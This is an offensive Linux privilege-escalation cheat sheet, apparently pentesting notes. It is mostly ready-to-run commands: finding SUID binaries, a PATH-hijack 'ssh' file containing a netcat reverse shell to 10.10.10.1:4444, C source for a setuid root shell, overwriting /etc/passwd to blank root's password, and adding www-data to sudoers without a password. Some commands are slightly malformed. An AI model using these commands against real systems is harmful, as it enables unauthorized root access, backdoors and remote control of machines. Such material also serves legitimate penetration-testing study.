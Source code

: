 Look for binaries with the SUID or GUID bits set.

> $ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
> $ find / -perm -1000 -type d 2>/dev/null
> $ find / -perm -g=s -type f 2>/dev/null

Adding a binary to PATH, to hijack another SUID binary invokes it without the fully qualified path.

> $ function /usr/bin/foo () { /usr/bin/echo "It works"; }
> $ export -f /usr/bin/foo
> $ /usr/bin/foo
>    It works

if you can just change PATH, the following will add a poisoned ssh binary:

> set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f &#124; /bin/sh -i 2>&1 &#124; nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
> chmod +x ssh

Generating SUID C Shell for /bin/bash

> int main(void){  
>     setresuid(0, 0, 0);  
>     system("/bin/bash");  
> }  

Without interactive shell

> $ echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c

If you can get root to execute anything, the following will change a binary owner to him and set the SUID flag:

> $ chown root:root /tmp/setuid;chmod 4777 /tmp/setuid;

If /etc/passwd has incorrect permissions, you can root:

> $ echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su

Add user www-data to sudoers with no password

> $ echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

If you can sudo chmod:

> $ echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c $ sudo chown root:root /tmp/setuid; sudo chmod 4777 /tmp/setuid; /tmp/setuid

Wildcard injection if there is a cron with a wildcard in the command line, you can create a file, whose name will be passed as an argument to the cron task, For more info:

[https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562]

compile exploit fix error

> $ gcc 9545.c -o 9545 -Wl,--hash-style=both


[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/]: https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
[https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562]: https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562
